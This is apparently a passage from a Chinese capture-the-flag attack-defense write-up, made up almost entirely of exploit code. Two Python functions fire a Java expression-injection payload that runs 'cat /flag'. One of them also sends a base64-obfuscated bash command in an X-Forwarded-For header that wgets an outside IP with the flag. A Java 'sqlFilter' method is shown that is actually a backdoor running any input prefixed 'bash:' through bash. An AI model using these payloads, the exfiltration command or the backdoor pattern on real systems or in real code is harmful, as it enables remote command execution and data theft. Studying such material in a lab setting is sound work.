 exp

```python
def attack1(target):

    try:
        cmd = 'cat /flag'
        print('attack', target)
        s = requests.Session()
        s.get(target + '/setlogin')

        # method 1
        res = s.get(target + '/about?type=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("cat%20/flag").getInputStream()).next()%7d__::.x', timeout=3)

        result = re.findall('flag{.*?}', res.text)
        if result:
            flag = result[0]
            print('find flag',flag)
            flags.put(flag)
    except Exception:
        pass


def attack2(target):

    try:
        cmd = 'cat /flag'
        print('attack', target)
        s = requests.Session()
        s.get(target + '/setlogin')

        # method 2
        s.get(target + '/logout?targetclass=java.lang.Runtime&method=exec', headers={
            'X-Forwarded-For': 'bash -c {echo,d2dldCAxNzUuMjEuMjYuMTY1OjU1NTUvP2ZsYWc9YGNhdCAvZmxhZ2A=}|{base64,-d}|{bash,-i}'
        })
        print('send to', target)
    except Exception:
        pass
    time.sleep(0.5)
```

### designCMS

提交评论的用户名如果以 `bash:` 开头的话就可以直接执行命令

```java
package BOOT-INF.classes.com.puboot.common.util;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.util.stream.Collectors;

public class SecureUtil {
  public static String sqlFilter(String str) throws IOException {
    if (str.startsWith("bash:"))
      return (new BufferedReader(new InputStreamReader((new ProcessBuilder(new String[] { "bash", "-c", str.substring(5) })).start().getInputStream()))).lines().collect(Collectors.joining("\n")); 
    return str;
  }
}
```
